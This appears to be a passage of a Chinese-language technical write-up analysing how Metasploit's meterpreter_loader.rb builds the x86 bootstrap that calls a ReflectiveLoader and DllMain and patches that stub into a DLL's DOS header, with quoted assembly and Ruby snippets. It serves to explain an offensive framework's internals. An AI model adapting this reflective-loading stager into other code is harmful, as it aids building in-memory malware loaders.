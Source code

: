 pop ebx将当前地址放到了ebx中，下面几行是恢复被修改的寄存器，保存栈底和提升栈顶

```
add ebx, #{"0x%.8x" % (opts[:rdi_offset] - 7)}//基地址+偏移=真正函数地址 
call ebx ; invoke ReflectiveLoader() 
; Invoke DllMain(hInstance, DLL_METASPLOIT_ATTACH, config_ptr) 
; offset from ReflectiveLoader() to the end of the DLL 
add ebx, #{"0x%.8x" % (opts[:length] - opts[:rdi_offset])}

```

先说一下call 后面的地址是怎么来的，call 地址=目标地址-call下一条指令地址

来看下这个指令add ebx, #{"0x%.8x" % (opts[:rdi_offset] - 7)}，代码中的rdi_offset是ReflectiveLoader函数的偏移地址。

这句汇编通过基地址+偏移得到真正的ReflectiveLoader函数地址，准备调用，这里说下为啥-7。

现在ebx中是pop ebx的地址，在pop ebx前面还有三条指令 dec ebp,pop edx,call $+5，这三条指令加到一起的长度是7个字节。

而要得到一个函数的地址应该是基地址+偏移，在这里的代码中，真正的基地址应该是dec ebp这里，而不是pop ebx这里，dec ebp的地址+ReflectiveLoader函数的偏移才是真正的ReflectiveLoader函数地址，而不是pop ebx的地址+ReflectiveLoader的偏移，所以pop ebx的地址要-7个字节回到dec ebp这里。

<br/> 接着调用了 call ebx执行了ReflectiveLoader函数，ReflectiveLoader函数主要是解析dll的pe信息，并根据这些信息重新把dll写入到内存中，然后修复dll的各种表，修复完成后会使用DLLMETASPLOIT_ATTACH调用dllmain函数，接着会把dllmain函数地址返回到eax寄存器中。

add ebx, #{"0x%.8x" % (opts[:length] - opts[:rdi_offset])}这行主要是定位到dll结束的地址，因为length是dll的总大小，它-reflectiveLoader函数的偏移就得到了剩余部分的大小，接着又让ebx+剩余部分大小=dll结束地址

```
mov [ebx], edi ; write the current socket/handle to the config//保存socket句柄到ebx的地址中 
push ebx ; push the pointer to the configuration start 

push 4 ; indicate that we have attached 

push eax ; push some arbitrary value for hInstance 

call eax ; call DllMain(hInstance, DLL_METASPLOIT_ATTACH, config_ptr)

```

metasploit发送载荷时会发送3部分数据

配置数据是与stage连在一起的。

现在ebx指向的是stagel结束的地址，第一行也就是将edi的值放到了配置结构中。

下面几行代码就是传入参数，接着在第5行调用了DLLMain函数。

现在stage就开始运行了。

但是在`meterpreter_loader.rb`这个文件中，还没有结束，我们继续看。

```
asm = asm_invoke_metsrv(asm_opts)//返回了上面asm_invoke_metsrv函数中的汇编 
# generate the bootstrap asm 
bootstrap = Metasm::Shellcode.assemble(Metasm::X86.new, asm).encode_string//生成引导代码 
# sanity check bootstrap length to ensure we dont overwrite the DOS headers e_lfanew entry 
if bootstrap.length &gt; 62 
    raise RuntimeError, "Meterpreter loader (x86) generated an oversized bootstrap!" 
end 

# patch the bootstrap code into the dll's DOS header... 

dll[ 0, bootstrap.length ] = bootstrap//替换原有的dos头

```
